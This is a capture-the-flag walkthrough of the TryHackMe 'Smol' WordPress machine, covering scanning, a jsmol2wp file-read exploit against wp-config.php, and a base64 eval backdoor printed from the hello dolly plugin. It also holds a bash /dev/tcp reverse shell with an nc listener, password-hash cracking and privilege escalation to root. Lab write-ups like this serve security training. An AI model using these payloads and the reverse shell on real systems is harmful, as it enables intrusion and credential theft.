







https://tryhackme.com/room/smol
## description
Test your enumeration skills on this boot-to-root machine.
At the heart of **Smol** is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

Quick Tips: Do you know that on computers without GPU like the AttackBox, **John The Ripper** is faster than **Hashcat**?

## /etc/hosts
I added www.smol.thm to /etc/hosts

## main website
powered by wordpress, 
there is information about email address: admin@smol.thm



there is also login website:
http://www.smol.thm/wp-login.php?redirect_to=http%3A%2F%2Fwww.smol.thm%2Findex.php%2F2023%2F08%2F16%2Frce%2F

and it is informing when password is incorrect:


## nmap scan
```
nmap -p- -sS -sV -T4 -A -sC 10.80.173.207
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:6a:bd:8d:80:2c:9c:c7:6b:73:8e:d0:14:1f:33:8e (RSA)
|   256 1c:fb:78:9f:cd:a5:bc:2b:3d:b8:bc:d1:46:b5:63:d7 (ECDSA)
|_  256 a4:6d:e0:dd:20:45:3e:fa:43:c6:ba:e8:f5:7d:41:81 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: AnotherCTF
|_http-generator: WordPress 6.7.1
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=1/8%OT=22%CT=1%CU=30194%PV=Y%DS=3%DC=T%G=Y%TM=695FB707
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)SEQ(SP=10
OS:3%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%I
OS:I=I%TS=A)SEQ(SP=106%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FF%GCD=1%IS
OS:R=106%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M4E8ST11NW7%O2=M4E8ST11NW7%O3=M4E8NNT11
OS:NW7%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M4E8ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B
OS:3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M4E8NNSNW7%CC=Y%Q=)
OS:T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=
OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T
OS:6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK
OS:=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## directories scan
```
feroxbuster -u 'http://www.smol.thm' -w /media/sf_wordlists/SecLists-master/Discovery/Web-Content/big.txt
```
interesting findings:
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/add-textdomain.php 500
http://www.smol.thm/wp-content/plugins/jsmol2wp/add-textdomain.php
http://www.smol.thm/index.php/wp-json
http://www.smol.thm/wp-content/plugins/jsmol2wp/jsmol_template.htm


```

## wpscan
it found some vulnerable plugin Jsmol2wp:
```
wpscan --detection-mode aggressive --url http://www.smol.thm --api-token **REDACTED**
Interesting Finding(s):

Interesting Finding(s):
[i] Plugin(s) Identified:

... some not interesting stuff...

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Cross-Site Scripting (XSS)
 |     References:
 |      - https://wpscan.com/vulnerability/0bbf1542-6e00-4a68-97f6-48a7790d1c3e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20462
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt

```

## CVE-2018-20463 - jsmol2wp

looks like this is easy to exploit just by visiting:
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
details: https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/

so we can read db credentials from wp-config.php:
```
define( 'DB_NAME', 'wordpress' );
/** Database username */
define( 'DB_USER', '***REDACTED***' );
/** Database password */
define( 'DB_PASSWORD', '***REDACTED***' );
```

## wordpress user panel
I accessed website using credentials to db  I found in previous step.
I found something interesting when going through pages and posts:

Information about dolly plugin - it is some tip probably.

## dolly plugin exploiting
we can check how this plugin is build on github and see the file:
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
hello dolly is evaluating decoded command
```
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```
so we can encode reverse shell and try. worked with /wp-admin/index.php
```
# run listener on kali
nc -nlvp 1234
# encode below in base64 with proper machine_ip and paste instead [PASTE] placeholder below
/bin/bash -i >& /dev/tcp/YOUR_MACHINE_IP/1234 0>&1
```
http://www.smol.thm/wp-admin/index.php?cmd=echo%[PASTE]%20|%20base64%20-d%20|%20bash

## www-data - reading from backup
in /opt I found backup of sql db (of course we could login as we have password, but it was there so I just opened file)
interesting finding:
```
/*!40000 ALTER TABLE `wp_users` DISABLE KEYS */;
INSERT INTO `wp_users` VALUES (1,'admin','$P$Bv***REDACTED***1aACL1','admin','admin@smol.thm','http://192.168.204.139','2023-08-16 06:58:30','',0,'admin'),(2,'wpuser','$P$B***REDACTED***MTnTvBVh2Z1/E.','wp','wp@smol.thm','http://smol.thm','2023-08-16 11:04:07','',0,'wordpress user'),(3,'think','$P$B0jO/***REDACTED***2gVi2pb7Vd/','think','josemlwdf@smol.thm','http://smol.thm','2023-08-16 15:01:02','',0,'Jose Mario Llado Marti'),(4,'gege','$P$BsIY1w***REDACTED***wiG0m1','gege','gege@smol.thm','http://smol.thm','2023-08-17 20:18:50','',0,'gege'),(5,'diego','$P$BWFBcbX***REDACTED***Erff4JPwv1','diego','diego@smol.thm','http://smol.thm','2023-08-17 20:19:15','',0,'diego'),(6,'xavi','$P$BvcalhsC***REDACTED***40mqJZCN/','xavi','xavi@smol.thm','http://smol.thm','2023-08-17 20:20:01','',0,'xavi');
/*!40000 ALTER TABLE `wp_users` ENABLE KEYS */;
UNLOCK TABLES;

```

## cracking wordpress passwords
I saved hashes to hashes.txt file and used hashcat to crack them:
```
hashcat -m 400 hashes.txt /usr/share/wordlists/rockyou.txt -O -w 3
diego: $P$BWF***REDACTED***f4JPwv1: ***REDACTED***     
admin: 
wpuser:
think:
gege: $P$BsIY1w***REDACTED***M4FwiG0m1: ***REDACTED***  
xavi:

```

# login as diego user
password for diego user on server is the same as for wordpress

in diego home directory we have user file containing flag

## diego - linpeas.sh
found readable think user ssh key:


## login as think user 
I saved private key to login as ***think*** user using ssh:
```
ssh -i id_rsa think@10.80.159.145
```


## login as gege user
we can switch to user ***gege*** just with ``su gege``
gege has some wordpress.old.zip in home directory

## reading gege backup files
I downloaded this file to my kali. During unzip it wants password - I used gege cracked 
after unpacking this file I checked wp-config
and looks like we have now xavi password


## xavi - really? am I root?
xavi is a bit special, as he can just switch to root:

